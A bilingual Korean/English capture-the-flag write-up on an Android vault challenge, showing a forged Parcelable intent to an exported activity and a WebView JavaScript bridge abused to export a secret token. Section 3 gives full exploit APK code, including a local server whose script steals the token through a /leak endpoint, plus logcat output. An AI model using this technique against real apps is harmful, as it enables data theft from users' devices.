

<div class="post-language-switch" data-post-language-switch role="group" aria-label="Article language">
    <a class="post-language-switch__button no-styling" data-post-language-link="ko" href="/posts/sctf-parcelbridge-vault/kr/">KR</a>
    <a class="post-language-switch__button no-styling" data-post-language-link="en" href="/posts/sctf-parcelbridge-vault/en/">EN</a>
</div>

:::section{data-post-language-panel="ko"}
# ParcelBridge Vault

## 1. 분석 대상

제공된 APK에서 먼저 볼 부분은 외부에서 열 수 있는 activity이다. Manifest에는 `RouterActivity`가 `com.sctf.victim.OPEN` action으로 export되어 있고 실제 vault 페이지를 여는 `WebVaultActivity`는 export되어 있지 않다.

```xml
<activity
    android:name="com.sctf.victim.RouterActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="com.sctf.victim.OPEN"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
<activity
    android:name="com.sctf.victim.WebVaultActivity"
    android:exported="false"/>
```

`RouterActivity`는 intent에서 `RouteSpec` Parcelable을 꺼낸 뒤 `RoutePolicy.accept()`를 통과하면 해당 route를 `WebVaultActivity`로 넘긴다. 검사 조건은 겉보기에는 origin, 서명 여부, proof, 세션 등을 확인하는 형태이다.

```java
if (routeSpec.url == null ||
    routeSpec.origin == null ||
    routeSpec.options == null ||
    !"https://vault.sctf.local".equals(routeSpec.origin) ||
    !routeSpec.options.getBoolean("signed", false) ||
    (routeSpec.bridgeMode & 2) == 0 ||
    routeSpec.sessionId == 0 ||
    routeSpec.proof == null ||
    routeSpec.proof.length < 4) {
    return false;
}

Uri uri = Uri.parse(routeSpec.url);
return "http".equals(uri.getScheme())
    && LOCAL_HOSTS.contains(IDN.toASCII(uri.getHost()).toLowerCase(Locale.US))
    && uri.getPort() >= 1024
    && uri.getPort() <= 65535;
```

여기서 `origin`, `signed`, `proof`, `sessionId`는 모두 외부 intent에 들어 있는 `RouteSpec`의 필드이다. 별도의 서명 검증이나 proof 검증은 없고 URL도 `127.0.0.1` 또는 `localhost`의 HTTP 주소이면 통과한다.

검사를 통과한 route는 `WebVaultActivity`에서 WebView로 로드된다. `bridgeMode`에 export bit가 있으면 `Vault`라는 JavaScript interface도 붙는다.

```java
if ((routeSpecTake.bridgeMode & 2) != 0) {
    webView.addJavascriptInterface(
        new VaultBridge(this, routeSpecTake, auditId, auditNonce),
        "Vault"
    );
}
webView.loadUrl(routeSpecTake.url);
```

`VaultBridge.export()`는 세션이 trusted 상태이고 seal이 완료됐으며 claim의 `purpose`가 `export`일 때 앱 내부의 token 파일을 읽어 반환한다. 결국 외부 앱에서 신뢰된 route처럼 보이는 Parcelable을 만들 수 있으면, victim의 WebView가 공격자가 띄운 localhost 페이지를 열고 그 페이지에 privileged bridge를 노출하게 된다.

## 2. 풀이

풀이의 핵심은 외부 APK에서 victim이 기대하는 `RouteSpec`과 같은 parcel layout을 만들어 `RouterActivity`로 보내는 데 있다. victim 쪽 `RouteSpec(Parcel)`은 `version`이 짝수일 때 아래 순서로 값을 읽는다.

```text
version
url
origin
options
bridgeMode
proof
tags
sessionId
```

exploit APK에 호환되는 `com.sctf.victim.RouteSpec` 클래스를 넣고 `version = 4`로 설정하면 victim의 class loader가 같은 layout으로 데이터를 언마샬링한다. route에는 `RoutePolicy.accept()`를 만족하는 값을 그대로 채우면 된다.

```java
spec.version = 4;
spec.url = "http://127.0.0.1:31337/";
spec.origin = "https://vault.sctf.local";
spec.options = new Bundle();
spec.options.putBoolean("signed", true);
spec.bridgeMode = 2;
spec.proof = new byte[] { 'A', 'B', 'C', 'D' };
spec.sessionId = 0x1122334455667788L;
```

그다음 exploit APK 안에서 localhost HTTP 서버를 열고 victim에 `com.sctf.victim.OPEN` intent를 보낸다. `WebVaultActivity`는 위 URL을 로드하므로 공격자가 제공한 JavaScript가 victim 프로세스의 WebView 안에서 실행된다.

bridge 호출 순서는 간단하다.

```text
Vault.open("purpose=export")
Vault.commit(handle, "seal=1&purpose=export&nonce=...")
Vault.export(handle)
```

`commit()`은 `bridgeNonce(sessionId, auditNonce)`로 계산한 nonce가 맞아야 seal을 완료한다. 그런데 `open()`의 반환값에 `handle`과 함께 `nonce`가 들어 있으므로 nonce를 예측할 필요가 없다. 반환된 값을 파싱해서 그대로 `commit()`에 넣으면 `sealed = true`가 되고 이후 `export()`가 token을 반환한다.

## 3. Exploit

exploit APK에 필요한 전체 코드는 아래와 같다. 앱이 실행되면 `MainActivity`가 `LocalServer`를 먼저 띄우고 500ms 뒤 victim의 exported route를 연다. `RouteSpec`은 victim과 같은 패키지명 및 parcel layout으로 넣어야 `Intent` extra가 victim 쪽에서 같은 객체처럼 해석된다.

### Manifest

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.sctf.exp">

    <uses-permission android:name="android.permission.INTERNET" />

    <application
        android:allowBackup="false"
        android:label="SCTF Exp"
        android:theme="@style/AppTheme"
        android:usesCleartextTraffic="true">
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

### RouteSpec

```java
package com.sctf.victim;

import android.os.Bundle;
import android.os.Parcel;
import android.os.Parcelable;
import java.util.ArrayList;

public class RouteSpec implements Parcelable {
    public int bridgeMode;
    public Bundle options;
    public String origin;
    public byte[] proof;
    public long sessionId;
    public ArrayList<String> tags;
    public String url;
    public int version;

    public RouteSpec() {
    }

    protected RouteSpec(Parcel in) {
        version = in.readInt();
        url = in.readString();

        if ((version & 1) == 0) {
            origin = in.readString();
            options = in.readBundle(RouteSpec.class.getClassLoader());
        } else {
            options = in.readBundle(RouteSpec.class.getClassLoader());
            origin = in.readString();
        }

        bridgeMode = in.readInt();
        if (version >= 3) {
            proof = in.createByteArray();
            tags = in.createStringArrayList();
        }
        sessionId = in.readLong();
    }

    @Override
    public void writeToParcel(Parcel dest, int flags) {
        dest.writeInt(version);
        dest.writeString(url);
        dest.writeString(origin);
        dest.writeBundle(options);
        dest.writeInt(bridgeMode);
        dest.writeByteArray(proof);
        dest.writeStringList(tags);
        dest.writeLong(sessionId);
    }

    @Override
    public int describeContents() {
        return 0;
    }

    public static final Creator<RouteSpec> CREATOR = new Creator<RouteSpec>() {
        @Override
        public RouteSpec createFromParcel(Parcel in) {
            return new RouteSpec(in);
        }

        @Override
        public RouteSpec[] newArray(int size) {
            return new RouteSpec[size];
        }
    };
}
```

### MainActivity

```java
package com.sctf.exp;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.TextView;
import com.sctf.victim.RouteSpec;
import java.util.ArrayList;

public class MainActivity extends Activity {
    private static final String TAG = "ParcelExp";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        TextView view = new TextView(this);
        view.setText("ParcelBridge exploit running");
        view.setPadding(32, 32, 32, 32);
        setContentView(view);

        new LocalServer().start();

        try {
            Thread.sleep(500);
        } catch (InterruptedException e) {
            Log.w(TAG, "sleep interrupted", e);
        }

        launchVictim();
    }

    private void launchVictim() {
        try {
            Intent intent = new Intent("com.sctf.victim.OPEN");
            intent.setPackage("com.sctf.victim");
            intent.addCategory(Intent.CATEGORY_DEFAULT);

            RouteSpec spec = new RouteSpec();
            spec.version = 4;
            spec.url = "http://127.0.0.1:31337/";
            spec.origin = "https://vault.sctf.local";
            spec.options = new Bundle();
            spec.options.putBoolean("signed", true);
            spec.bridgeMode = 2;
            spec.proof = new byte[] { 'A', 'B', 'C', 'D' };
            spec.tags = new ArrayList<>();
            spec.sessionId = 0x1122334455667788L;

            intent.putExtra("route", spec);
            intent.putExtra("trace_id", "parcelbridge");
            intent.putExtra("profile", "exp");

            Log.i(TAG, "starting victim route");
            startActivity(intent);
        } catch (Throwable t) {
            Log.e(TAG, "launch failed", t);
        }
    }
}
```

### LocalServer

```java
package com.sctf.exp;

import android.util.Log;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.ServerSocket;
import java.net.Socket;
import java.net.URLDecoder;

public class LocalServer extends Thread {
    private static final String TAG = "ParcelExp";
    private static final int PORT = 31337;

    public LocalServer() {
        setName("ParcelExpServer");
    }

    @Override
    public void run() {
        try {
            ServerSocket server = new ServerSocket(PORT);
            Log.i(TAG, "server listening on 31337");

            for (int i = 0; i < 20; i++) {
                Socket socket = server.accept();
                handle(socket);
            }

            server.close();
        } catch (Throwable t) {
            Log.e(TAG, "server failed", t);
        }
    }

    private void handle(Socket socket) {
        try {
            BufferedReader reader = new BufferedReader(
                new InputStreamReader(socket.getInputStream())
            );
            String request = reader.readLine();
            String body;

            if (request != null && request.startsWith("GET /leak?")) {
                String flag = extractFlag(request);
                Log.i(TAG, flag);
                body = "OK";
            } else {
                body = page();
            }

            byte[] response = (
                "HTTP/1.1 200 OK\r\n" +
                "Content-Type: text/html; charset=utf-8\r\n" +
                "Connection: close\r\n\r\n" +
                body
            ).getBytes("UTF-8");

            OutputStream out = socket.getOutputStream();
            out.write(response);
            out.flush();
            socket.close();
        } catch (Throwable t) {
            Log.e(TAG, "handle failed", t);
            try {
                socket.close();
            } catch (Throwable ignored) {
            }
        }
    }

    private static String extractFlag(String request) {
        if (request == null) {
            return "EMPTY_REQUEST";
        }

        int start = request.indexOf("flag=");
        if (start < 0) {
            return request;
        }

        start += 5;
        int end = request.indexOf(" ", start);
        if (end < 0) {
            end = request.length();
        }

        String encoded = request.substring(start, end);
        try {
            return URLDecoder.decode(encoded, "UTF-8");
        } catch (Throwable t) {
            return encoded;
        }
    }

    private static String page() {
        return "<!doctype html><meta charset=utf-8><body>vault</body><script>" +
            "(function(){" +
            "function leak(x){" +
            "fetch('/leak?flag='+encodeURIComponent(x)).catch(function(e){});" +
            "}" +
            "try{" +
            "var r=Vault.open('purpose=export');" +
            "var m={};" +
            "r.split('&').forEach(function(p){" +
            "var i=p.indexOf('=');" +
            "if(i>0)m[p.slice(0,i)]=decodeURIComponent(p.slice(i+1));" +
            "});" +
            "var c=Vault.commit(m.handle,'seal=1&purpose=export&nonce='+m.nonce);" +
            "var f=Vault.export(m.handle);" +
            "leak(f+'|'+c+'|'+r);" +
            "document.body.textContent=f;" +
            "}catch(e){" +
            "leak('ERR_JS_'+e);" +
            "}" +
            "})();" +
            "</script>";
    }
}
```

이 코드에서 `RouteSpec`의 `writeToParcel()` 순서와 `version = 4`가 맞아야 한다. 그래야 victim이 `origin`, `options`, `bridgeMode`, `proof`, `sessionId`를 의도한 위치에서 읽고 `RoutePolicy.accept()`를 통과한다.

원격 runner에서는 victim APK가 먼저 설치되고 private flag가 준비된 뒤 exploit APK가 실행됐다. logcat에서 bridge 흐름과 checker 통과를 확인했다.

```text
I/ParcelExp: server listening on 31337
I/ParcelExp: starting victim route
D/SctfVaultBridge: open handle=h-70bf6548-7788 trusted=true
D/SctfVaultBridge: commit handle=h-70bf6548-7788 sealed=true
I/SctfVaultBridge: exported proof via bridge
I/ParcelExp: SCTF{9e9ed634577a6bd8b7c609db6cde9609}|OK_SEALED|handle=h-70bf6548-7788&nonce=8859fd8edb0e9634
[checker] accepted
```

## 4. Flag

```text
SCTF{9e9ed634577a6bd8b7c609db6cde9609}
```


:::

:::section{data-post-language-panel="en"}
# ParcelBridge Vault

## 1. Analysis focus

The useful entry point in the APK is the exported activity. In the manifest, `RouterActivity` is exported with the `com.sctf.victim.OPEN` action, while `WebVaultActivity`, which opens the actual vault page, is not exported.

```xml
<activity
    android:name="com.sctf.victim.RouterActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="com.sctf.victim.OPEN"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
<activity
    android:name="com.sctf.victim.WebVaultActivity"
    android:exported="false"/>
```

`RouterActivity` extracts a `RouteSpec` Parcelable from the intent and, if it passes `RoutePolicy.accept()`, forwards that route to `WebVaultActivity`. At a glance, the checks appear to validate the origin, signed state, proof, session, and so on.

```java
if (routeSpec.url == null ||
    routeSpec.origin == null ||
    routeSpec.options == null ||
    !"https://vault.sctf.local".equals(routeSpec.origin) ||
    !routeSpec.options.getBoolean("signed", false) ||
    (routeSpec.bridgeMode & 2) == 0 ||
    routeSpec.sessionId == 0 ||
    routeSpec.proof == null ||
    routeSpec.proof.length < 4) {
    return false;
}

Uri uri = Uri.parse(routeSpec.url);
return "http".equals(uri.getScheme())
    && LOCAL_HOSTS.contains(IDN.toASCII(uri.getHost()).toLowerCase(Locale.US))
    && uri.getPort() >= 1024
    && uri.getPort() <= 65535;
```

`origin`, `signed`, `proof`, and `sessionId` are all fields of the `RouteSpec` coming from the external intent. There is no separate signature or proof verification, and the URL also passes as long as it is an HTTP URL on `127.0.0.1` or `localhost`.

A route that passes the checks is loaded into a WebView by `WebVaultActivity`. If `bridgeMode` has the export bit set, it also attaches a JavaScript interface named `Vault`.

```java
if ((routeSpecTake.bridgeMode & 2) != 0) {
    webView.addJavascriptInterface(
        new VaultBridge(this, routeSpecTake, auditId, auditNonce),
        "Vault"
    );
}
webView.loadUrl(routeSpecTake.url);
```

`VaultBridge.export()` reads and returns the app’s internal token file when the session is trusted, the seal is complete, and the claim’s `purpose` is `export`. In the end, if an external app can construct a Parcelable that looks like a trusted route, the victim’s WebView will open a [localhost](http://localhost/) page hosted by the attacker and expose a privileged bridge to that page.

## 2. Solution approach

The solve is to make the external APK create a parcel layout matching the victim’s expected `RouteSpec` and send it to `RouterActivity`. On the victim side, `RouteSpec(Parcel)` reads values in the following order when `version` is even.

```
version
url
origin
options
bridgeMode
proof
tags
sessionId
```

Therefore, if we include a compatible `com.sctf.victim.RouteSpec` class in the exploit APK and set `version = 4`, the victim’s class loader unmarshals the data using the same layout. The route can then be filled with values that satisfy `RoutePolicy.accept()`.

```java
spec.version = 4;
spec.url = "http://127.0.0.1:31337/";
spec.origin = "https://vault.sctf.local";
spec.options = new Bundle();
spec.options.putBoolean("signed", true);
spec.bridgeMode = 2;
spec.proof = new byte[] { 'A', 'B', 'C', 'D' };
spec.sessionId = 0x1122334455667788L;
```

Next, the exploit APK starts an HTTP server on [localhost](http://localhost/) and sends the `com.sctf.victim.OPEN` intent to the victim. Since `WebVaultActivity` loads the URL above, the attacker-provided JavaScript runs inside the WebView in the victim process.

The bridge needs three calls.

```
Vault.open("purpose=export")
Vault.commit(handle, "seal=1&purpose=export&nonce=...")
Vault.export(handle)
```

`commit()` completes the seal only if the nonce calculated as `bridgeNonce(sessionId, auditNonce)` matches. However, the return value of `open()` includes the `nonce` along with the `handle`, so there is no need to predict it. Parsing the returned value and passing it directly to `commit()` makes `sealed = true`, and then `export()` returns the token.

## 3. Exploit

The exploit APK uses the following files. When the app runs, `MainActivity` first starts `LocalServer`, and 500 ms later it opens the victim’s exported route. `RouteSpec` needs to be included with the same package name and parcel layout as the victim, so the `Intent` extra is interpreted as the same object on the victim side.

### Manifest

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.sctf.exp">

    <uses-permission android:name="android.permission.INTERNET" />

    <application
        android:allowBackup="false"
        android:label="SCTF Exp"
        android:theme="@style/AppTheme"
        android:usesCleartextTraffic="true">
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

### RouteSpec

```java
package com.sctf.victim;

import android.os.Bundle;
import android.os.Parcel;
import android.os.Parcelable;
import java.util.ArrayList;

public class RouteSpec implements Parcelable {
    public int bridgeMode;
    public Bundle options;
    public String origin;
    public byte[] proof;
    public long sessionId;
    public ArrayList<String> tags;
    public String url;
    public int version;

    public RouteSpec() {
    }

    protected RouteSpec(Parcel in) {
        version = in.readInt();
        url = in.readString();

        if ((version & 1) == 0) {
            origin = in.readString();
            options = in.readBundle(RouteSpec.class.getClassLoader());
        } else {
            options = in.readBundle(RouteSpec.class.getClassLoader());
            origin = in.readString();
        }

        bridgeMode = in.readInt();
        if (version >= 3) {
            proof = in.createByteArray();
            tags = in.createStringArrayList();
        }
        sessionId = in.readLong();
    }

    @Override
    public void writeToParcel(Parcel dest, int flags) {
        dest.writeInt(version);
        dest.writeString(url);
        dest.writeString(origin);
        dest.writeBundle(options);
        dest.writeInt(bridgeMode);
        dest.writeByteArray(proof);
        dest.writeStringList(tags);
        dest.writeLong(sessionId);
    }

    @Override
    public int describeContents() {
        return 0;
    }

    public static final Creator<RouteSpec> CREATOR = new Creator<RouteSpec>() {
        @Override
        public RouteSpec createFromParcel(Parcel in) {
            return new RouteSpec(in);
        }

        @Override
        public RouteSpec[] newArray(int size) {
            return new RouteSpec[size];
        }
    };
}
```

### MainActivity

```java
package com.sctf.exp;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.TextView;
import com.sctf.victim.RouteSpec;
import java.util.ArrayList;

public class MainActivity extends Activity {
    private static final String TAG = "ParcelExp";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        TextView view = new TextView(this);
        view.setText("ParcelBridge exploit running");
        view.setPadding(32, 32, 32, 32);
        setContentView(view);

        new LocalServer().start();

        try {
            Thread.sleep(500);
        } catch (InterruptedException e) {
            Log.w(TAG, "sleep interrupted", e);
        }

        launchVictim();
    }

    private void launchVictim() {
        try {
            Intent intent = new Intent("com.sctf.victim.OPEN");
            intent.setPackage("com.sctf.victim");
            intent.addCategory(Intent.CATEGORY_DEFAULT);

            RouteSpec spec = new RouteSpec();
            spec.version = 4;
            spec.url = "http://127.0.0.1:31337/";
            spec.origin = "https://vault.sctf.local";
            spec.options = new Bundle();
            spec.options.putBoolean("signed", true);
            spec.bridgeMode = 2;
            spec.proof = new byte[] { 'A', 'B', 'C', 'D' };
            spec.tags = new ArrayList<>();
            spec.sessionId = 0x1122334455667788L;

            intent.putExtra("route", spec);
            intent.putExtra("trace_id", "parcelbridge");
            intent.putExtra("profile", "exp");

            Log.i(TAG, "starting victim route");
            startActivity(intent);
        } catch (Throwable t) {
            Log.e(TAG, "launch failed", t);
        }
    }
}
```

### LocalServer

```java
package com.sctf.exp;

import android.util.Log;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.ServerSocket;
import java.net.Socket;
import java.net.URLDecoder;

public class LocalServer extends Thread {
    private static final String TAG = "ParcelExp";
    private static final int PORT = 31337;

    public LocalServer() {
        setName("ParcelExpServer");
    }

    @Override
    public void run() {
        try {
            ServerSocket server = new ServerSocket(PORT);
            Log.i(TAG, "server listening on 31337");

            for (int i = 0; i < 20; i++) {
                Socket socket = server.accept();
                handle(socket);
            }

            server.close();
        } catch (Throwable t) {
            Log.e(TAG, "server failed", t);
        }
    }

    private void handle(Socket socket) {
        try {
            BufferedReader reader = new BufferedReader(
                new InputStreamReader(socket.getInputStream())
            );
            String request = reader.readLine();
            String body;

            if (request != null && request.startsWith("GET /leak?")) {
                String flag = extractFlag(request);
                Log.i(TAG, flag);
                body = "OK";
            } else {
                body = page();
            }

            byte[] response = (
                "HTTP/1.1 200 OK\r\n" +
                "Content-Type: text/html; charset=utf-8\r\n" +
                "Connection: close\r\n\r\n" +
                body
            ).getBytes("UTF-8");

            OutputStream out = socket.getOutputStream();
            out.write(response);
            out.flush();
            socket.close();
        } catch (Throwable t) {
            Log.e(TAG, "handle failed", t);
            try {
                socket.close();
            } catch (Throwable ignored) {
            }
        }
    }

    private static String extractFlag(String request) {
        if (request == null) {
            return "EMPTY_REQUEST";
        }

        int start = request.indexOf("flag=");
        if (start < 0) {
            return request;
        }

        start += 5;
        int end = request.indexOf(" ", start);
        if (end < 0) {
            end = request.length();
        }

        String encoded = request.substring(start, end);
        try {
            return URLDecoder.decode(encoded, "UTF-8");
        } catch (Throwable t) {
            return encoded;
        }
    }

    private static String page() {
        return "<!doctype html><meta charset=utf-8><body>vault</body><script>" +
            "(function(){" +
            "function leak(x){" +
            "fetch('/leak?flag='+encodeURIComponent(x)).catch(function(e){});" +
            "}" +
            "try{" +
            "var r=Vault.open('purpose=export');" +
            "var m={};" +
            "r.split('&').forEach(function(p){" +
            "var i=p.indexOf('=');" +
            "if(i>0)m[p.slice(0,i)]=decodeURIComponent(p.slice(i+1));" +
            "});" +
            "var c=Vault.commit(m.handle,'seal=1&purpose=export&nonce='+m.nonce);" +
            "var f=Vault.export(m.handle);" +
            "leak(f+'|'+c+'|'+r);" +
            "document.body.textContent=f;" +
            "}catch(e){" +
            "leak('ERR_JS_'+e);" +
            "}" +
            "})();" +
            "</script>";
    }
}
```

In this code, the `writeToParcel()` order and `version = 4` of `RouteSpec` must be correct. That lets the victim read `origin`, `options`, `bridgeMode`, `proof`, and `sessionId` from the intended positions and pass `RoutePolicy.accept()`.

On the remote runner, the victim APK was installed first, the private flag was prepared, and then the exploit APK was launched. The logcat output confirmed the bridge flow and that the checker passed.

```
I/ParcelExp: server listening on 31337
I/ParcelExp: starting victim route
D/SctfVaultBridge: open handle=h-70bf6548-7788 trusted=true
D/SctfVaultBridge: commit handle=h-70bf6548-7788 sealed=true
I/SctfVaultBridge: exported proof via bridge
I/ParcelExp: SCTF{9e9ed634577a6bd8b7c609db6cde9609}|OK_SEALED|handle=h-70bf6548-7788&nonce=8859fd8edb0e9634
[checker] accepted
```

## 4. Flag


`SCTF{9e9ed634577a6bd8b7c609db6cde9609}`
:::
